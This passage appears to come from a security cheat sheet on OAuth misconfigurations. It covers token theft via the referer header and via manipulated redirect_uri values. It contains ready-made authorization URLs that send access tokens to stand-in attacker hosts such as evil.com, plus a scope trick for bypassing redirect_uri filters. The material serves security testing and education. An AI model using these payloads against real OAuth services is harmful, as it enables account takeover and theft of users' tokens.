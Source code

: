 # OAuth Misconfiguration

> OAuth is a widely-used authorization framework that allows third-party applications to access user data without exposing user credentials. However, improper configuration and implementation of OAuth can lead to severe security vulnerabilities. This document explores common OAuth misconfigurations, potential attack vectors, and best practices for mitigating these risks. 


## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect---uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect---uri)
- [OAuth Private Key Disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [Labs](#labs)
- [References](#references)


## Stealing OAuth Token via referer

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)


## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```
